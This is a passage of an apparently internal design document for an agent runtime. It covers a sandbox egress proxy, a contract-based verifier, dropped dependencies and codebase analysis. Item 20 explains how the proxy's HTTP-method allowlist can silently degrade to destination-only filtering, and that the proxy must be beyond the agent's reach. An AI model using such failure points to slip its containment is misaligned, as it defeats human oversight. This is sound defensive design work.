> 20. **The two controls are one mechanism now, and the reason to check that is that the obvious version of it silently stops enforcing half of what it claims.** `plan.md` **OD-12** and **OD-13**, 2026-08-03. **All outbound traffic from the sandbox traverses a single mandatory egress proxy, which enforces the destination allowlist *and* the HTTP method allowlist together.** The point is that the proxy sees a request whether it came from the runtime's HTTP client or from `curl` inside a shell, so **argv opacity stops being load-bearing for either control** — which dissolves the incoherence C-17 named rather than choosing between its two readings. **v1's shell executes, and no ladder classifies a shell command for effect purposes.** §2.6's step 4 is deleted as a category; `UNKNOWN` survives and changes subject, from an unparseable argv to a request the proxy cannot match to a safe served operation. **The assumption that had to be tested first, because it is the same failure shape as the method-versus-destination conflation this analysis already caught:** a proxy can enforce a *method* allowlist only if it sees the method, and against an HTTPS target a CONNECT-level proxy sees a host and a port — so **the method allowlist degrades into a destination allowlist while appearing intact.** Seeing the method implies terminating TLS, a proxy CA trusted inside the sandbox, and re-origination. **Verdict: feasible, unnecessary for v1, and rejected for v1.** A trust anchor in the sandbox is client-side and the agent cannot make the proxy forward anything — but it concentrates impersonation of every host into one key, it forces a certificate pin on self-hosted targets that serve private-CA or self-signed certificates, and it is the bar at which an operator reaches for the escape hatch. **The v1 posture is re-origination instead:** the agent is handed a cleartext proxy endpoint as the target's base URL, the proxy reads method and path in the clear and then makes its own validated TLS connection to the pinned address. **That is available only because v1 has exactly one destination and we own the base-URL string** — it does not generalize, and any future multi-destination capability is back to *terminate TLS or say you filter by destination only*. Three things improve as a side effect: no CA in the sandbox, no operator-held certificate pin, and **no resolver in the sandbox at all**, since its one reachable address is the proxy. **Four things do not improve and must not be read as improved.** The proxy is a single enforcement point that must be un-modifiable by the agent. D-15's configuration leg absorbs the proxy configuration and every widening of it. **U-43's measurement moves to the proxy and is not thereby taken** — relocating a mechanism does not measure it. And **"provably read-only" is still unavailable**: a verb is a convention and a lookup is not a proof at the proxy any more than in the dispatcher. What grows is *coverage*, not validity. **C-16 and C-17 both resolve on this** — C-16's direct exfiltration channel is closed and its enumerated residue stands, C-17's incoherence is dissolved — and **U-44 is untouched**, which is the honest remainder: whether the target's own safe-method operations fetch URLs on the agent's behalf is a per-target property, unmeasured, fail-closed by default.
> 21. **All three v1 capabilities now ship without measurement, and the third one became a decision rather than a schedule.** `plan.md` **OD-14**, 2026-08-03, retiring OD-11's blocking condition. **Drift detection** was scheduled for a Phase 5 that never ran and E13 never had a deployment-drift arm; **the write gate's effect-classification precision** has never been measured against anything, which is precisely why v1 is read-only (**D-22**, **U-43**, OD-10); and **the verifier's margin over an LLM judge** is now declared UNMEASURED, with the measurement deferred to production traffic. **The consolidated statement lives in one place — [`VERDICT.md` §2, *All three v1 capabilities ship unmeasured*](../specs/001-discovery-validation/VERDICT.md#all-three-v1-capabilities-ship-unmeasured)** — because until now it was distributed across three registers where nobody would assemble it, and it is the fastest true thing a reader of this repository can learn. **Two things must not be blurred, and the record has already blurred them once.** *Demonstrated:* the postcondition verifier detects **all 9 numeric value errors including all 3 sub-1% near-misses** on the eligible population, and — separately, over a different population — ~~with **zero false alarms across 220 clean positives**~~ **raises zero false alarms on the 96 attested clean positives, 93 of them compared** — *the offline full-corpus sweep restricted to records whose own run manifest declares the battery under test; the pooled 220 and the `0/60` judge-scored sample are two further populations (§3.2 labelling table)* — through a six-rung precision ladder committed before any derivation was written that **contains no numeric constant**, so the mechanism is real and was not fitted. **Denominator restated 2026-08-03 ([finding 018](../specs/001-discovery-validation/findings/018-verifier-false-alarm-attested-denominator.md), U-49) and the mechanism claim is stronger for it: the narrow rate is also zero, so the struck figure was not wrong. What changed is that `0 of 220` is a statement and not a rate — 45 of the 220 were declined as `unverifiable`, and the pooled rate is 0 of 175 compared — and that the two counts above may no longer be joined by *with*, because they were never one measurement; on the attested population both sides share one denominator and read 2 of 2 false successes flagged, 0 false alarms on 96 positives.** *Unmeasured:* whether an LLM judge would have caught the same failures. **No judge call was ever billed; every judge figure in the committed artifacts is a stub.** **Why E8 was not run** — it was pre-registered, built, self-tested and dry-run at **$0.00**, and its corpus cannot answer the question: the surviving discriminative sample is **2 traces**, **three pre-registered riders independently cap the verdict** so that no achievable outcome licenses the headline claim, and the eligibility rule costs **four of seven task families**. **Read OD-14 as what it says it is: a deliberate, knowing departure from this feature's prove-before-build discipline**, taken with the reason stated, by a project that had until then adjudicated every gate against its own interest. **One design constraint survives at zero cost and is worth more than the number the gate would have printed:** the failure that matters is schema-conformant end to end — request, response, and the application's own reported total all agreed while the answer was wrong — so the production verifier must be specified as **recomputation against an independent source**, not as schema-conformance checking. The schema-derived arm detects **0 of 9** numeric errors and returns `unverifiable` on 92% of traces. ~~*(A finding on E8's structural results is being written concurrently; no identifier from it is cited here.)*~~ **Written and propagated 2026-08-03 — [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md).** *Deferred, now discharged; the placeholder is struck rather than deleted because it is the reason this item cited no identifier.* **The finding's own headline is not about verifiers and is the most transferable thing E8 produced: a hash-pinned trace corpus rebased onto edited prompts and every hash check kept passing (U-47).** It also carries one correction that changes a reading rather than a number — **`D_c2` is a *detection* rate and the gate reads *marginal* detection over traces the judge passed**, so with no judge verdict nothing clears the gate and nothing fails it, and P-07 is closed **UNMEASURED rather than answered**.
> 22. **The runtime this document adopted is gone, and what replaces it is a build nobody has sized.** `plan.md` **OD-15**, **OD-16** and **OD-17**, 2026-08-03. **OD-15 partially reverses OD-01 and drops ADK from v1.** OD-01 rested on four limbs and the production plan established that three lose their subject against a one-agent, one-loop v1: **graph execution has no graph** — hosting a single loop on the `Workflow` tier is *graph for a `for` loop*, the failure mode restatement 5 names by that name; **provider abstraction is measured non-compliant** — [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) result 7 counted the `LiteLlm` adapter referencing xAI's opaque reasoning field **zero times under every counting rule**, while the production spec's SC-010 requires four providers and its FR-037 requires the round-trip, *and nobody had connected those two artifacts until the plan phase, because they were written independently*; and **serving rests on nothing measured**, which this document already said at §2.8. Lifecycle was the only survivor, and the owner held that one limb does not justify the dependency. **OD-16** removes `litellm`, which declared no license in its published package metadata (finding 003 result 8) and was in the tree as a transitive dependency of the ADK path; the same finding's macOS wheel gap was found first and was a real observation, and it is moot as a *shipping* question rather than the reason. **OD-17** makes Linux the only supported platform, because the three isolation mechanisms are kernel facilities. **Read the cost before reading the tidiness, because this decision buys architectural coherence with unowned work.** ~~Eight capabilities ADK was carrying have no owner in v1~~ — *corrected in the same pass: nine, once the concurrency mitigation below is counted* — the session store, the runner, the agent loop, checkpoint and resume, tool-schema translation, the per-provider cost table, `max_llm_calls` as a resettable backstop, the raw terminal signals, and the event stream §2.8's surface renders. **`U-48` is opened for the unsized build**; the 2.5–3.5 weeks predates all of it. **Two evidence claims re-base rather than surviving.** Finding 006's *two of four missing against a threshold of three* is a statement about ADK and is **no longer a statement about v1's substrate**, so nothing may cite it as reassurance either way; and finding 003's four-provider pass was driven **through ADK and LiteLLM**, so the provider-capability half transfers and the adapter-implementation half does not — **SC-010 becomes a test v1 must pass rather than a result it inherits** (U-03). **One hazard changes owner rather than lapsing, and it is the one most easily lost.** Finding 006 measured fan-out producing **5 distinct orderings in 8 runs** and a **silent lost update** where a concurrent write to a shared key vanished with no error; those were measurements of ADK's completion-order scheduler and reducer-free state model, but **the hazard is the providers'** — every provider in SC-010's set can emit parallel tool calls in one turn — so it applies to a v1 that emits no graph, and with ADK gone **the mitigation is ours** (§2.6, T-08 in the production research). **What this converges:** [02](./02-agent-harnesses.md) §7's standing verdict is *adopt a thin substrate, build the harness*, and §2.12 of this document had been resolving it the other way; OD-15 removes that divergence. **What it does not license:** it is not a finding that ADK is unsuitable — it is a finding that v1 is not the product OD-01 was taken for, and OD-09 is where the product changed.

---

## Table of contents

1. [The thesis, restated in light of the evidence](#1-the-thesis-restated-in-light-of-the-evidence)
2. [Recommended reference architecture](#2-recommended-reference-architecture)
3. [The decision register](#3-the-decision-register)
4. [Contradiction register](#4-contradiction-register)
5. [Consolidated uncertainty register](#5-consolidated-uncertainty-register)
6. [What to do Monday](#6-what-to-do-monday)
7. [What would make us wrong](#7-what-would-make-us-wrong)
8. [Cross-references](#8-cross-references)

---

## 1. The thesis, restated in light of the evidence

### 1.1 The opening vision

> Analyze any codebase in any language. Generate a multi-agent system over it. Agents get Claude Code-equivalent coding tools plus tools synthesized from the target application's domain operations, a knowledge/memory layer, a graph-loop protocol with artifact trading, served over HTTP/SSE or an embeddable iframe, with customer-supplied credentials.

Every clause in that sentence is now qualified by evidence. Below is what survives.

### 1.2 What the evidence says the product actually is

~~**`function2agent` is a compiler from a running application's trust boundary to a small, verified, effect-labeled tool surface — plus the runtime that drives it.**~~ **Superseded 2026-08-02 by `plan.md` OD-09: `function2agent` is the runtime, the verifier and the drift detector. The compiler is v2.** The multi-agent part is a hypothesis to be tested, not a premise — **and it is now an untested v2 hypothesis rather than a v1 one.** The "any language" part is an aspiration the corpus cannot currently support. The generation part is commoditized. **The clause that inverted is "plus the runtime that drives it": the runtime was the appendix to the compiler and is now the product, with the compiler the appendix.**

Four restatements, in order of how much they change the plan. **Three of the four are re-dated rather than refuted by OD-09 — restatement 1 to v2, restatement 3 to v2 on its headline half, restatement 4 amended on its closing sentence — and restatement 2 is *sharpened*, not relieved.** Each carries its own annotation below; none is deleted, because each is still the right analysis of the thing it analyses.

**Restatement 1 — ~~the product is a *selector*, not a *generator*~~ — SUPERSEDED FOR v1 ON 2026-08-02 BY `plan.md` OD-09. The product is a *runtime*; the selector is v2.**
**Read the strike-through precisely: the restatement is not refuted, it is re-dated.** Nothing below is measured wrong — seven products still ship mechanical conversion, tool confusion still sets in at 30–50 tools, and a 300-endpoint app still cannot be exposed 1:1 and work. What changed is that the pre-registered pivot fired (§7 of [11](./11-validation-plan.md), TL;DR 16), so **v1 emits no synthesized tool surface for a selector to select from.** The restatement is retained in full because it is the v2 thesis and it carries a measured number now — ~~2.8×–9.3×~~ ~~2.2×–9.3×~~ **2.20×–4.366× within session** cheaper wherever a tool fits *(narrowed 2026-08-03; §3.1 OWNER FLAG)* — which it did not when it was written.
Seven products already convert OpenAPI or code into tools: mcp-forge, super-mcp, AutoMCP, Synapse, Speakeasy, Stainless, TrueFoundry ([07](./07-product-vision.md) §8). None of them decide *which* operations deserve to be tools, what their real effects are, or whether the resulting surface fits in a model's working set. The measured constraints that make selection load-bearing: tool confusion sets in somewhere around 30–50 tools and ~55k tokens of definitions ([01](./01-agent-anatomy.md) §5.2). A 300-endpoint app therefore *cannot* be exposed 1:1 and work. The four differentiators, ranked — **with a standing column added 2026-08-02, because OD-09 splits them two and two and the ranking below is no longer the v1 ranking**:

| Differentiator | Why it is hard | Why it is defensible | Standing after OD-09 |
|---|---|---|---|
| **Promotion selection** (300 → ~25) | Requires knowing which operations correspond to user-meaningful outcomes, not which functions are public | Directly measurable ([11](./11-validation-plan.md) H1, arm A1 vs. A2); nobody ships it | **v2 — deferred with synthesis.** Never measured: P-04's arm needs a generator and no generator was built. The one adjacent result is that a 20-tool surface returning *records* lost a family to a `jq` pipeline while one tool returning an *answer* moved a task by 35× (D-19), which constrains how v2 selects rather than whether it should |
| **Effect classification** (`read_only` / `write` / `destructive` / `egress`) | Static analysis of a well-factored app *structurally strips authorization*, because authz lives above the data-access layer ([08](./08-auth-identity-and-secrets.md) §3.4) | It is the input to every safety gate; without it there is no write story at all | **Splits — and this row is the one place OD-09 is propagated with a narrowing rather than as written (D-22, C-16).** The *differentiator* — a derived `read_only`/`write`/`destructive` label attached to a synthesized tool at generation time, gated by D-16 — **defers with synthesis**, because there is no synthesized tool to attach it to. The *obligation* does not: constitution Principle IV (NON-NEGOTIABLE) binds **every emitted tool**, and v1 emits a shell and an HTTP client that can issue `DELETE` against real data. So v1 classifies **per call rather than per tool**, at a runtime interception point that can block. This row's last clause — *without it there is no write story at all* — is therefore the part that survives most exactly, and it now points at a gate rather than at a label. **Sharpened 2026-08-03 by `plan.md` OD-10, which takes that clause literally: there is no write story, so v1 ships none.** Resolved read → allow; everything else → deny. The classification obligation is unchanged and the gate is what discharges it |
| **Contract-derived verification** | Needs type signatures, postconditions, exception classes, and existing tests wired into the loop | The only non-degenerate alternative to LLM self-grading, which is measurably worse than nothing ([04](./04-self-improving-agents.md) §2) | **v1 — and, with drift detection, now the whole product.** Promoted rather than retained: this was ranked third of four and is now one of two. Measured at [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) — literal 0.8696 clears the pre-registered ≥ 0.80, validated 0.7681 misses, and both must always be quoted (D-09). The load-bearing consequence of the promotion is that D-09's *thin margin* is no longer a caveat on one differentiator among four; it is a thin margin under half the product |
| **Drift detection** | Requires re-running analysis against a moving target and diffing semantics, not text. **Sharpened 2026-08-02 by `plan.md` OD-06, and the sharpening is a correction as much as an addition: there are *two* moving targets on two clocks, and re-running analysis sees only one of them.** The codebase moves under commits; the deployment moves under configuration, rollout, and its own installed package set (U-35). A tool therefore goes stale either because the handler changed or because the deployment stopped serving it, and those want different responses — regenerate in the first case, fail closed in the second. Separating the source-derived catalogue from the reachability annotation is what makes the two **separately** detectable; a single fused artifact cannot tell them apart, and this row was written assuming one. **One consequence is carried to O-04, which read refresh cadence and drift detection as "the same machinery" — true of the source half only. A second is flagged rather than smoothed, because it is not this document's to change: `plan.md` E13 tests drift by mutating the codebase and has no arm in which the source is unchanged and the deployment stops serving an operation** | Turns a one-shot generation into a subscription | **v1 — and, with contract-derived verification, now the whole product.** Promoted from fourth of four to one of two, and it is the *least* measured of the two: [11](./11-validation-plan.md) §8 scheduled drift for Phase 5 (H6) and Phase 5 never ran. **What the promotion exposes is that a differentiator ranked last was never load-bearing enough to be measured, and now it is**, with the two-clock split above still un-experimented on its deployment half (O-04). Note also that "one-shot generation into a subscription" was an argument about a *generated catalogue*; under OD-09 what drifts is the specification the runtime reads and the deployment it reaches, which is a smaller artifact and an easier diff |

**Restatement 2 — there are two products, and one of them must wait.**
[07](./07-product-vision.md) §3.4 is the most consequential structural finding in the corpus. Class A (agent operates on the source tree) and Class B (agent operates through the running app) have different users, different threat models, and different competitors. Class A competes head-on with Claude Code, Cursor, and Augment using their own tooling. Class B is the differentiated claim and requires solving authorization and identity propagation that Class A does not.

Fusing them, then wrapping the result in an iframe, assembles the lethal trifecta — private data, untrusted content, egress ([01](./01-agent-anatomy.md) §8) — by construction rather than by accident. That is not a bug to be patched later; it is a v1 scoping decision.

**Sharpened, not superseded, 2026-08-02 by `plan.md` OD-09, and the direction is uncomfortable.** This restatement's instruction — *ship one class in v1* — survives intact, and the iframe leg is already deferred with the hosted tier (D-20, D-08). What OD-09 changes is the other side of the ledger. C-15 recorded that OD-07's general fallback path "pushes toward fusing the two agent classes"; under OD-09 there is no longer a synthesized surface for the fallback to be a fallback *from*, so **the general path is not an escape hatch beside the curated tools, it is the entire tool surface.** Restatement 2's prohibition was written against a design where the general tools were the addition; in the pivoted design they are the baseline, and the question becomes whether the *specification-plus-socket* agent is Class B at all or simply Class A pointed at a network. **This is not adjudicated here** — it is C-15's business and OD-07 assigns it to the production spec — but the register should not record the pivot as having relieved the pressure. It concentrated it.

**Restatement 3 — ~~MCP is the headline, not the plumbing~~ — DEFERRED WITH SYNTHESIS 2026-08-02 (`plan.md` OD-09). The *plumbing* half survives as a v1 rule; the *headline* half has nothing to headline.**
**Both halves move, and they move for different reasons, which D-06 now records in full.** The negative half — *do not adopt MCP as the internal calling convention* — survives, but its decisive argument does not: "MCP has nowhere to put effect metadata, so internal adoption deletes the compile-time trifecta check" is a claim about a **catalogue of labelled synthesized tools**, and v1 emits none, so there is no compile-time trifecta check for MCP to delete. The rule survives on the three weaker reasons that were always there (wire-format churn, dual-era cost, an external protocol as an internal ABI) plus one that OD-09 strengthens: v1's classification happens **per call at a runtime interception point** (D-22), and MCP has no slot for that either. The positive half — *MCP export is the single most legible artifact the product can hand a customer* — **defers with synthesis outright**, because the artifact it exports is the tool catalogue. The white space [09](./09-mcp-as-tool-surface.md) §5.2 found is still white space and is still a v2 asset (U-14 gives it a ~6-month lead, not a moat). The text below is retained unchanged as the v2 position.
The corpus converged on this from four directions ([01](./01-agent-anatomy.md) §5.6, [09](./09-mcp-as-tool-surface.md) §3). The fourth reason is the one that decides it: **MCP's tool schema has nowhere to put effect metadata.** If `read_only` and `egress` are the annotations that let you refuse to compose a trifecta at compile time, and the wire format cannot carry them, then adopting MCP internally deletes the safety differentiator. Externally, MCP is the single most legible artifact the product can hand a customer — "here is an MCP server for your app's domain operations" is a sentence that sells itself, and [09](./09-mcp-as-tool-surface.md) §5.2 found genuine white space: every existing codebase→MCP generator exposes *code navigation*, not the target app's domain operations.

**Restatement 4 — Anthropic shipped dynamic workflows, so control flow is not the product.**
[10](./10-topology-in-practice.md) §2 documents Claude Code v2.1.154: model-authored JavaScript orchestration, deterministic scheduler, journaled `agent()` calls, non-determinism sources disabled for sound replay, 16 concurrent and 1,000 agents per run. If the plan was "our contribution is a better way to express agent topologies," that contribution now has a free, better-engineered competitor inside the tool most of the target users already run. What is *not* free is the analysis and synthesis layer that decides what the agents should be able to do.

**Amended 2026-08-02 by `plan.md` OD-09, and the amendment lands on that last sentence rather than on the restatement.** The restatement holds — control flow is not the product, and Anthropic shipping dynamic workflows is still the reason. But the sentence naming what *is* not free named **analysis and synthesis** jointly, and the pivot splits them: synthesis leaves v1, and analysis shrinks to *derive contracts where no schema is published, and detect source drift*. **So the correct v1 form of that sentence is that what is not free is the layer that decides whether what the agent did was right** — the contract-derived verifier — rather than the layer that decides what it may do. That is a narrower claim than the original and a better-measured one (D-09, [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md)).

### 1.3 What I would put on the tin

> ~~**`function2agent` turns a running application into a small, safe, verified agent tool surface — and gives you the agents that drive it.**~~
>
> **Superseded 2026-08-02 by `plan.md` OD-09. The v1 sentence is:**
>
> **`function2agent` points an agent at your running application's own specification, verifies what it did against contracts derived from your code, and fails closed when either one moves.**

**What left the sentence, and why it is worth saying rather than quietly rewriting.** *"A small tool surface"* — there is no synthesized surface in v1; the agent holds general tools and a specification (OD-09). *"Safe"* narrows to something specific and enforceable rather than disappearing: writes pass a runtime interception point that can block, tiered per call (D-22, Principle IV). *"Gives you the agents"* — plural is gone, because decomposition-into-agents leaves v1 with synthesis; v1 is one agent by decision, not by argument (D-11 was already the argument). **What is new in the sentence is "fails closed when either one moves,"** which is drift detection promoted from fourth differentiator to half the product — and *either one* is doing real work, because O-04 and D-18 establish that the code and the deployment move on two different clocks.

Note what is missing from the superseded sentence: "any language," "multi-agent," and "graph." All three are currently unearned. "Any language" is contradicted by a corpus that is 78% Python and exercises none of `codegraph`'s PHP/Ruby/C#/Swift resolvers ([12](./12-examples-as-corpus.md) §4.2). "Multi-agent" costs ~15× tokens ([Anthropic](https://www.anthropic.com/engineering/multi-agent-research-system)) and fails 41–86.7% of the time in Berkeley's MAST data, two-thirds of it architecturally ([01](./01-agent-anatomy.md) §7.3). "Graph" is superseded by journaled imperative code ([10](./10-topology-in-practice.md) §12).

*Confidence: high on restatements 1 and 2 — both rest on multiple independent sources plus measurable predictions. Medium on 3, which depends on MCP's schema not gaining effect annotations within a year. Medium-high on 4: the finding is verified from Anthropic's own docs, but the inference that it forecloses the category is my judgment.*

*Confidence restated 2026-08-02 for the post-OD-09 reading, because the original note grades claims about v1 and three of the four are now claims about v2. **High** that restatements 1, 3 and 4 are correct **about v2**; the measurement that moved them is about timing and scope, not about whether selection matters. **High** that restatement 2's prohibition still binds, and **low-to-medium** on the specific question OD-09 opens underneath it — whether a specification-plus-socket agent is Class B or a network-pointed Class A — which nothing measures and which C-15 leaves to the production spec. **Medium** on the v1 sentence in §1.3, and the weak leg is drift detection: it is half the product and Phase 5 never ran, so it is the least-evidenced thing this document now calls v1.*

### 1.4 Claims the corpus found poorly supported

Collected here because each one, believed, would have produced a worse product. Every one of these was in the opening vision or in the ambient discourse around it.

**"Add a reflection step and the agent gets better."** LLM self-critique *without external feedback* measurably degrades reasoning; the positive results in earlier papers came from oracle labels deciding when to stop ([arXiv:2310.01798](https://arxiv.org/abs/2310.01798), via [04](./04-self-improving-agents.md)). If you have extra budget, spend it on a verifier or on self-consistency.

**"Use an LLM judge to grade the agent."** Anti-correlated with truth on false-success detection at **AUROC 0.18–0.30** — worse than a coin flip in the direction that matters — and the bias lives in a low-dimensional, causally steerable subspace, so it does **not** average out across samples ([04](./04-self-improving-agents.md) §3). Averaging more judges buys you a more confident wrong answer.

**"Multi-agent debate improves reasoning."** No better than self-consistency at matched model-call counts ([04](./04-self-improving-agents.md) §5).

**"Let the system optimize its own workflow."** Automated workflow optimization does beat hand-designed graphs on benchmarks — and the search cost usually exceeds the cost of a human drawing the graph ([04](./04-self-improving-agents.md) §7).

**"Decompose the app into UI / API / data agents."** Every request crosses all three, so each agent owns no outcome and the system's only emergent behavior is agents calling each other at ~15× tokens ([Anthropic](https://www.anthropic.com/engineering/multi-agent-research-system), via [07](./07-product-vision.md) §3.1).

**"Framework checkpointing gives you durability."** LangGraph checkpoints at super-step boundaries; a node that crashes halfway re-runs from the top *with its side effects*, and `interrupt()` re-executes everything before the interrupt on resume — charge-then-confirm double-charges ([03](./03-graph-and-loop-architecture.md) §10).

**"Put the safety rules in the system prompt."** A prompt that says "always validate before writing" is a suggestion. An edge is a guarantee. Anything the agent must not skip belongs in topology ([03](./03-graph-and-loop-architecture.md) §5).

**"Mechanically convert the API and you have an MCP server."** The author of FastMCP — roughly 70% of the MCP servers in existence — says these "technically work but fail in practice" ([09](./09-mcp-as-tool-surface.md) §5). 1:1 mapping ships a known anti-pattern under your brand.

---

## 2. Recommended reference architecture

Seven layers. For each: **adopt**, **build**, and why. The rule from [02](./02-agent-harnesses.md) §2 governs every adopt decision — **does this dependency see prompts and tokens?** If yes, it is a competitor's opinion about your core product and you build instead. If it sits on the execution path only (durable execution, sandboxes, tracing), adopt freely.

### 2.1 Diagram



**Re-scoped 2026-08-02 by `plan.md` OD-09, and three changes to this diagram are worth reading deliberately because the shape of the product is in them.** ① **`SYN` and `BI` are orange and dashed — v2, not built.** `SYN`'s third line, contract derivation, was pulled out into `CTR` and stays in v1, which is the whole of what survives of the synthesis layer. ② **`RCH` gained a solid edge straight to `LOOP`.** Under the old design the reachability annotation fed synthesis and the agent never saw it; under the pivot the served operation set **is the specification the agent reads**, so that edge is the product's main artery rather than an annotation on a catalogue. ③ **`GATE` is new and it is not decoration.** With no synthesized tool carrying a static `read_only` label, constitution Principle IV's permission tiers have nowhere to attach except the call itself, so the interception point is where a tier is *produced* rather than where a precomputed one is *enforced* (D-22, C-16). Note that the credential edge now leaves `GATE` rather than `LOOP`: nothing reaches the broker without passing the tier check, which is the structural form of the requirement and the reason it cannot be a system-prompt rule.

**The one seam worth reading off this diagram deliberately** is the dotted pair between `CG` and `RCH`. Added 2026-08-02 to record `plan.md` OD-06: reachability is a stage above analysis rather than a step inside it, so the offline box stays deterministic, cacheable, content-addressable and testable against committed fixtures — which Principle VII requires and a network probe would quietly break, since a fixture repository has nothing to probe. The edge is drawn as an **annotation** rather than a filter on purpose: a filter applied to `CG`'s output would fuse the two artifacts back together and make the code graph vary with a deployment it does not describe.

### 2.2 Layer 1 — Analysis

**Adopt as the extraction core:** `codegraph`. MIT-licensed, tree-sitter, 39 languages, 29 extractors, documented SQLite schema (4 tables, 22 node kinds, 12 edge kinds), incremental sync, Linux kernel indexed in under 12 minutes ([06](./06-examples-inventory.md) §2). Its 30 framework resolvers give route→handler awareness, and `getRoutingManifest()` returns URL→handler pairs — which is exactly the input tool synthesis needs.

**This is now measured rather than inferred.** Against a machine-generated answer key read from a FastAPI application's own `app.routes` table across five constructor configurations — 77 distinct `(method, path)` pairs — the tool recovered 69, with zero false positives inside the application source tree: **precision 1.0000, recall 0.8961, F1 0.9452.** Symbol-level recall against Python's own `ast` module is **0.9987** (16,655 of 16,677 functions and methods) at **1.0000** precision. Route-to-handler linkage matched the framework's own `route.endpoint.__name__` **69 times out of 69** ([finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md)). One repository, one framework, one language — see §7.5 before generalizing any of it.

**Build (the gap-fill, named and sized).** Recall of 0.8961 sits in the **0.75–0.90 band of the pre-registered gate, not the ≥0.90 band**, so the recommendation is *extend with a named, sized gap-fill work item* rather than adopt outright. The eight misses partition cleanly, and the partition is the work item:

| Gap | Misses | Size |
|---|---|---|
| `websocket` absent from the extractor's verb list | 1 | One token in a regex |
| `app.mount()` is a call, not a decorator, so it is not recognized | 1 | One extraction form |
| FastAPI's own generated routes (`/openapi.json`, `/docs`, `/docs/oauth2-redirect`, `/redoc`) have no source declaration anywhere | 4 | A per-framework constant, shippable as data |
| Third-party routes registered at runtime under a computed prefix | 2 | **Not statically recoverable — and, measured 2026-08-02, not recoverable by running the target either.** This cell previously read "requires the target running," which implied the fix was a probe. [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §2 shows the published schema misses both of these operations too, so the mechanism D-18 adopts does not close this gap. It is genuinely open (U-29) |

Three further build items fall out of the same measurement: **emit a direct route-to-handler edge for every framework**, which the Python resolver already does and the TypeScript path does not (§3, D-14); **reconcile `.gitignore` filtering against tracked-file status**, because the indexer silently dropped a directory of committed source (U-28); and **validate extracted metadata field by field rather than null-checking it**, because the `docstring` field is populated with wrong values rather than left empty (U-27).

**What this layer emits, and where it stops — decided 2026-08-02 by `plan.md` OD-06.** The analysis layer emits a **candidate set derived from source and nothing else**. Reachability against a deployed configuration is *not* one of its build items, and the entry that listed it as one in §2.12 is struck. The probe belongs to a stage above (§2.1, §2.4, D-18), and the reason the seam goes there rather than one layer down is that this layer must stay **testable against committed fixtures, which Principle VII requires and a network probe would quietly break** — a fixture repository has nothing to probe. It is also what keeps the constitution's Additional Constraints requirement that the knowledge layer be *rebuildable from the codebase alone* true of the artifact this layer produces (§2.11, §3.1). Two things follow that are easy to get wrong. The static gap-fill above stays here in full, including the two runtime-registered routes at U-29 — those are an analysis miss that no probe rescues, not a reachability question. And the fallback of §2.4 rule 4, configuration parsing, does **not** migrate down into this layer merely because it needs no network: its input is a deployment's configuration and its output is a claim about one deployment, so folding it in would make the code graph vary with a deployment it does not describe, which is the exact fusion OD-06 forbids.

**One integration rule, unchanged:** read the SQLite directly, not the TypeScript API. This avoids coupling the pipeline to Node 22.5+ and lets the analysis layer be a Python process ([06](./06-examples-inventory.md) §2.4).

**Why extend rather than build:** re-implementing multi-language parsing is a multi-year commodity project with a maintained MIT alternative sitting in `examples/`, and the extraction core is now measured as sound enough to build on — the work we own is post-processing, not replacement. The one thing still to verify before committing: schema stability across `codegraph` releases (see §5, U-04).

**What to extend, sharpened 2026-08-02: resolution, not extraction** ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §6). The index's dedicated `return_type` column is empty across all 48,154 Python nodes, reproducing the 0-of-63,783 TypeScript result exactly — **and that is the cosmetic defect, not the real one.** The type information sits in the `signature` string and parses cleanly for 54 of 65 Python route handlers (0.8308) and 664 of 742 TypeScript callables (0.8949). The gap is one layer up: of the return types that parse, only **19 of 54 (0.3519)** on Python and **252 of 683 (0.3690)** on TypeScript resolve to a type the index declares, and 140 of 683 TypeScript return types name a type the index does not contain at all. `Promise<ArticleDto>` gives a name, not a shape. **Nothing in the index resolves a named type to its fields**, and that — not a better signature parser — is the next unit of work on this layer. Python reached 100% on parameters only because the harness walks Pydantic models through inheritance with `ast`; the equivalent walk over TypeScript's 4,395 declared interfaces is unwritten, is the larger population, and should be measured first.

### 2.3 Layer 2 — Boundary inference — **DEFERRED TO v2, 2026-08-02 (`plan.md` OD-09)**

> **Deferred, not retracted, and the distinction has teeth here.** OD-09 moves decomposition-into-agents out of v1, and boundary inference exists to serve that decomposition — so the layer has no v1 consumer. Every claim below survives as a claim about v2, including the honest one that bounded contexts are the right axis *and are not reliably recoverable statically*. **Two consequences are worth recording rather than leaving implicit.** First, this section called boundary inference "the gap that makes the product a product" and §2.12 calls architecture inference "the core IP"; under the pivot **the core IP is not in v1 at all**, and a reader who takes those phrases at face value will size the v1 build wrong. Second, the termination condition below already anticipated this outcome — *fall back to a single agent over the full promoted tool set* — and OD-09 takes a step past it: fall back to a single agent over **no** promoted tool set. So the layer's own escape hatch fired, one notch further than it was written to reach. Phase 0b (§6.2) is the scoring exercise this layer needs and it is now a v2 prerequisite rather than a Monday item.

**Build:** all of it. `codegraph` has **zero concept of layers, domains, or bounded contexts** ([06](./06-examples-inventory.md) §G1). This is the gap that makes the product a product.

**Why it is hard, stated honestly:** [07](./07-product-vision.md) §3.1 argues bounded contexts are the right decomposition axis *and are not reliably recoverable statically*. Both halves matter. The right axis is worthless if you cannot find it; a findable wrong axis (layers) produces agents that own no outcome. Signals worth combining: package/module structure, route grouping, table co-access from the data-access layer, import-graph modularity, and — if available — git co-change. `adk-python`'s ~20 intentionally-layered subpackages are the corpus's best scoring oracle ([12](./12-examples-as-corpus.md) Phase 1).

**Termination condition:** if inferred decomposition does not beat the naive package-structure baseline on `adk-python`, do not ship domain-decomposed multi-agent at all. Fall back to a single agent over the full promoted tool set (arm A2), which [11](./11-validation-plan.md) already treats as the reference arm.

### 2.4 Layer 3 — Synthesis — **SPLIT 2026-08-02 (`plan.md` OD-09): rules 4 and 5 are v1; everything else is v2**

> **This layer does not defer as a unit, and reading it as one is the mistake most likely to be made here.** OD-09 moves **tool synthesis, promotion selection, and effect classification** out of v1 and keeps **contract derivation**, which is one of the three items in the build line below. So the split runs through the middle of this section:
>
> | Part of §2.4 | Fate | Why |
> |---|---|---|
